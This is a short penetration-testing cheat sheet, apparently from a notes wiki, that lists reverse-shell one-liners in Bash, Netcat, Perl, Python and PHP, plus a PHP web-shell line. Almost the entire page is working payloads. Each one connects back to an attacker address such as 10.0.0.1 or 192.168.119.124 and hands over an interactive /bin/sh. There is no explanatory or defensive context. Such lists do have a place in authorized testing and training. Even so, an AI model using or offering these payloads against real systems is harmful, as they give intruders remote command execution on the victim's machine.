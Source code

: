 # Shells

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

### Bash

```text
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Netcat

```text
nc -e /bin/sh 10.0.0.1 1234
```

### Netcat \(without -e\) 

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Perl

```text
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```text
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

'<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/192.168.119.124/4445 0>&1\"\'); ?>'
```

